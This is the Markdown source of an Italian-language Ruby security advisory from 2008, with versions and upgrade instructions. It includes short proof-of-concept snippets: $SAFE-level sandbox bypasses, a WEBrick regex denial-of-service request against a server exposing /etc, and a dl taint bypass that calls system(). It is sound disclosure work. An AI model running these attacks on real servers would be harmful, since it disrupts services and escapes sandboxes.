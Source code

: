 ```yaml
---
layout: news_post
title: "Multiple vulnerabilità in Ruby"
author: "Fabio Cevasco"
lang: it
---
```


Multiple vulnerabilità sono state scoperte in Ruby. Si raccomanda di eseguire un aggiornamento alle ultime versioni.

## Dettagli

Le seguenti vulnerabilità sono state scoperte.

### Molteplici vulnerabilità nel safe level

Molteplici vulnerabilità nel \_safe level\_ sono state scoperte:

* untrace\_var è permesso in safe level 4.

      trace_var(:$VAR) {|val| puts "$VAR = #{val}" }

      Thread.new do
       $SAFE = 4
       eval %q{
         proc = untrace_var :$VAR
         proc.first.call("aaa")
       }
      end.join

* $PROGRAM\_NAME può essere moficato in safe level 4.

      Thread.new do
       $SAFE = 4
       eval %q{$PROGRAM_NAME.replace "Hello, World!"}
      end.join

      $PROGRAM_NAME #=> "Hello, World!"

* Metodi non sicuri possono essere chiamati in safe level 1-3.

      class Hello
       def world
         Thread.new do
           $SAFE = 4
           msg = "Hello, World!"
           def msg.size
             self.replace self*10 # replace string
             1 # ritorna la dimensione sbagliata
           end
           msg
         end.value
       end
      end

      $SAFE = 1 # o 2, o 3
      s = Hello.new.world
      if s.kind_of?(String)
       puts s if s.size < 20 # Stampa una stringa la cui lunghezza è inferiore a 20
      end

* Syslog operations are permitted at safe level 4.

      require "syslog"

      Syslog.open

      Thread.new do
       $SAFE = 4
       eval %q{
         Syslog.log(Syslog::LOG_WARNING, "Hello, World!")
         Syslog.mask = Syslog::LOG_UPTO(Syslog::LOG_EMERG)
         Syslog.info("masked")
         Syslog.close
       }
      end.join

Queste vulnerabilità sono state notificate da Keita Yamaguchi.

### Vulnerabilità DoS in WEBrick

WEBrick::HTTP::DefaultFileHandler è soggetto a richieste che occupano
tempi esponenziali dovute a un\'espressione regolare retroattiva in
WEBrick::HTTPUtils.split\_header\_value.

Server vulnerabile:

    require 'webrick'
    WEBrick::HTTPServer.new(:Port => 2000, :DocumentRoot => "/etc").start

Attack:

    require 'net/http'
    res = Net::HTTP.start("localhost", 2000) { |http|
      req = Net::HTTP::Get.new("/passwd")
      req['If-None-Match'] = %q{meh=""} + %q{foo="bar" } * 100
      http.request(req)
    }
    p res

&amp;Egrave; possibile che questa richiesta abbia bisogno di un tempo
infinito.

Questa vulnerabilità è stata notificata da Christian Neukirchen.

### Mancanza di controlli di \_taintness\_ in dl
{: #label-3}

dl non controlla la \_taintness\_, e questo potrebbe permettere la
chiamata di funzioni pericolose.

    require 'dl'
    $SAFE = 1
    h = DL.dlopen(nil)
    sys = h.sym('system', 'IP')
    uname = 'uname -rs'.taint
    sys[uname]

Questa vulnerabilità è stata notificata da sheepman.

### Vulnerabilità di spoofing del DNS spoofing in resolv.rb

resolv.rb permette ad utenti remoti di mascherare le risposte del DNS.
Questo rischio può essere ridotto randomizzando le ID di transazione e
le porte sorgenti, così resolv.rb è stato corretto per fare proprio
questo.

* vedi anche: [CVE-2008-1447][1]

Questa vulnerabilità è stata notificata da Tanaka Akira.

## Versioni di Ruby vulnerabili

serie 1.8
: * 1\.8.5 e precedenti
  * 1\.8.6-p286 e precedenti
  * 1\.8.7-p71 e precedenti

serie 1.9
: * r18423 e precedenti

## Soluzione

serie 1.8
: Eseguire l\'agggiornamento a 1.8.6-p287 o 1.8.7-p72.
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz&gt;][2]
  * [&lt;URL:ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz&gt;][3]

serie 1.9

: Eseguire un checkout dell\'ultima versione tramite Subversion.

      $ svn co http://svn.ruby-lang.org/repos/ruby/trunk ruby

Nota che un pacchetto che corregge questa vulnerabilità potrebbe essere
già disponibile attraverso il tuo software di package management.

## Crediti

Un sincero ringraziamento a Keita Yamaguchi, Christian Neukirchen,
sheepman, e Tanaka Akira per aver notificato questi problemi al Ruby
Security Team.

## Cambiamenti

* 2008-08-08 12:21 +09:00 Corretto il numero di revisione di Ruby 1.9.
* 2008-08-11 11:23 +09:00 Corretto il patchlevel di Ruby 1.8. vedi
  [L\'annuncio del rilascio di Ruby 1.8.7-p72 and 1.8.6-p287][4]



[1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-1447
[2]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.6-p287.tar.gz
[3]: ftp://ftp.ruby-lang.org/pub/ruby/1.8/ruby-1.8.7-p72.tar.gz
[4]: {{ site.url }}/it/news/2008/08/11/ruby-1-8-7-p72-and-1-8-6-p287-released/
